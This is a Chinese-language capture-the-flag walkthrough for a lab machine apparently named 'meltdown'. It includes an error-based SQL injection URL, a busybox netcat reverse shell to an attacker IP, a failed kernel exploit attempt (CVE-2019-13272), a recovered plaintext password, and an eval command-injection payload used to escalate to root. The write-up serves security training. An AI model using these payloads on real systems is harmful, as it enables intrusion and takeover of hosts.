# meltdown
nmap扫描


查看一番,有两个功能点,一个是登录功能(弱口令失败),一个是id查询物品明显需要sql注入来获取管理员账号密码,且为数字型的注入
http://192.168.56.111/item.php?id=2-1
采用报错的方式来注入,但是信息的长度有限,用substring函数来调整
```
http://192.168.56.111/item.php?id=1 and updatexml(1,concat(0x7e,(select substring(group_concat(schema_name),31,30) from information_schema.schemata),0x7e),1) --+
```
最后还是直接用sqlmap跑吧
跑出来用户名和密码

登陆后出现新的功能点

用来改介绍的

再次点击访问http://192.168.56.111/item.php?id=1

思路清晰了,通过修改物品信息,注入代码拿到shell

试了半天弹不回来,最后用`busybox nc 192.168.56.108 5555 -e /bin/bash`弹回来

先升级一下shell
看了下用户是rin尝试用之前的密码连接一下(没成功)
一番查看没找到什么,上传提权脚本

尝试一下CVE-2019-13272
[poc.c](https://github.com/bcoles/kernel-exploits/blob/master/CVE-2019-13272/poc.c)
gcc poc.c -o exp
./exp

没成功
最终找到一个密码
```
find / -type f -name "*passwd*" 2>/dev/null
```
rin:b59a85af917afd07

使用ssh连接成功
```
sudo -l
```

经过过滤最后输出
```
local sanitized_input=$(echo "$user_input" | tr -d '\n\r')
eval "output=\"$sanitized_input\""
echo "最终输出: $output"
```
尝试思路采用命令注入,闭合引号,来执行脚本
payload:
```
'"
id
"'

代码中将会执行
eval "output=""
id
"""
```
但是还是失败了

看了下别人的
```
'"
 bash
"'
```

修改了一下payload的构造,在id前加上空格即可(不知道为什么)
```
'"
 id
"'
```

bash -x可以看详细过程
另一种方法利用进程替换

```
基本工作原理
1. 执行过程
当Shell遇到进程替换语法时：

# 示例
cat <(echo "hello world")
Shell的执行步骤：

创建一个命名管道（FIFO）或/dev/fd下的文件描述符

在子进程中执行echo "hello world"

将命令的输出连接到刚才创建的文件描述符

将<(echo "hello world")替换为文件描述符路径（如/dev/fd/63）

最终命令变为：cat /dev/fd/63
```